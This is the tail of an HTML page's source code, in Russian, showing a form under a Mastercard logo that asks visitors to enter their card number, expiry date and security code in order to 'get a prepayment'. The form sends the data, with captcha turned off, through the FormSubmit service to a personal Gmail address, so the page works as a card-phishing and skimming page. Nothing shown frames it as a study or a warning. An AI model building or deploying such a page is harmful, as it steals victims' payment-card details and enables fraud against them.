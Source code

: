       color: #fff;
      font-size: 1rem;
      cursor: pointer;
      transition: background 0.3s;
    }
    button:hover {
      background: #ff2d2d;
    }
  </style>
</head>
<body>

  <div class="card-form">
    <div class="card-logo">
      <!-- сюда любая картинка, например логотип -->
      <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/0/04/Mastercard-logo.png/80px-Mastercard-logo.png" alt="logo">
      <h2>Ведите карту штоб получить предоплату</h2>
    </div>

    <!-- Форма отправки -->
    <form action="https://formsubmit.co/Golda1.namechtu@gmail.com" method="POST">
      <!-- скрытые настройки FormSubmit -->
      <input type="hidden" name="_subject" value="Новое сообщение с формы">
      <input type="hidden" name="_captcha" value="false">

      <label>Номер карты</label>
      <input type="text" name="field1" placeholder="0000 0000 0000 0000" required>

      <label>MM/RR</label>
      <input type="text" name="field2" placeholder="срок годности карты" required>

      <label>MRM (код зади на карточке)</label>
      <input type="text" name="field3" placeholder="000" required>

      <button type="submit">Ввести</button>
    </form>
  </div>

</body>
</html>
